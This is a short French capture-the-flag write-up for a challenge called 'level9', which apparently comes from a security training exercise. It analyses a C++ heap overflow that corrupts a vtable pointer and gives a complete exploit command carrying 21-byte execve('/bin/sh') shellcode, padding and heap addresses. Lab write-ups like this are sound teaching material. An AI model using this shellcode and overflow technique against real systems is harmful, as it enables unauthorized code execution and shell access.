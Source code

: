 # level9 - C++ Buffer Overflow avec Shellcode

## Analyse du Programme

**Structure**
- Programme en C++
- Allocation dynamique avec `_Znwj` (opérateur new)
- Deux allocations de 108 bytes
- Copie de l'argument avec `memcpy`

**Caractéristiques Mémoire**
- Premier bloc à `0x804a008`
- Second bloc à `0x804a078`
- Offset de 108 bytes entre les blocs
- Vtable à `0x08048848`

## Exploitation

**Construction du Payload**
- Shellcode: 21 bytes pour `execve("/bin/sh")`
- Padding: 83 bytes
- Adresse de retour: `0x0804a00c`

**Commande d'Exploitation**
```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*83 + "\x0c\xa0\x04\x08"')
```

Le payload:
1. Adresse pour écrire le shellcode
2. Shellcode de 21 bytes
3. Padding de 83 bytes
4. Adresse de retour pointant vers le shellcode

Cette exploitation permet d'exécuter le shellcode en redirigeant le flux d'exécution vers notre code malveillant dans la heap.
